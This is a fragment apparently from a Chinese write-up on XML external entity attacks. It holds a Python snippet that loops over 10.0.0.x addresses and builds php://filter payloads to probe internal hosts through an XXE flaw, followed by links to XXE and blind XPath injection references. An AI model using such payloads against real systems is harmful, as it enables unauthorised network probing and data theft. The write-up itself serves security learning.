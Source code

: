 ```python
    try:
        i = str(i)
        ip = '10.0.0.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
continue
```

## 参考链接

https://xz.aliyun.com/t/6887

https://www.runoob.com/dtd/dtd-attributes.html

https://zh.wikipedia.org/wiki/XML%E5%A4%96%E9%83%A8%E5%AE%9E%E4%BD%93%E6%94%BB%E5%87%BB

https://xz.aliyun.com/t/7791#toc-6

https://owasp.org/www-community/attacks/Blind_XPath_Injection